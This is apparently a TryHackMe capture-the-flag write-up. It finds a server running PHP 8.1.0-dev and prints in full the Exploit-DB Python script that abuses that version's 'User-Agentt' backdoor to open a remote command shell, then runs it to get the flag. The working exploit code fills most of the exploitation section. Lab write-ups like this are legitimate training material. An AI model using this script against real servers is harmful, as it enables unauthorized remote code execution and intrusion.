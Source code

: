 ## Info
- Platform: TryHackMe  
- Difficulty: Easy  

---

## Enumeration
<img width="1919" height="830" alt="Screenshot_2025-09-10_06-34-15" src="https://github.com/user-attachments/assets/43c74208-54e7-4fca-8b76-50665d523637" />

- Most sidebar links (Login, Register, Forgot Password, Charts, Tables) were dummy (`#`).  
- Only `blank.html` and `404.html` worked.

<img width="1919" height="470" alt="Screenshot_2025-09-10_06-46-58" src="https://github.com/user-attachments/assets/aa09a066-303e-42c2-9e56-f9767e0fca13" />

- In the **Network tab**, the server revealed it was running: PHP/8.1.0-dev

---

## Exploitation
- Searched Exploit-DB for *PHP 8.1.0-dev*.  
- Found: [PHP 8.1.0-dev – 'User-Agentt' RCE](https://www.exploit-db.com/exploits/49446).
```bash
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```            
- Opened `nano` and created a new file `agent.py`.  
- Pasted the exploit code inside and saved it.

<img width="698" height="240" alt="Screenshot_2025-09-10_06-53-17" src="https://github.com/user-attachments/assets/8adba7af-ebc3-4104-a75a-28dfb63ff2c9" />
- Executed the script.

---

## Result


- Flag found: `[FLAG FOUND]`
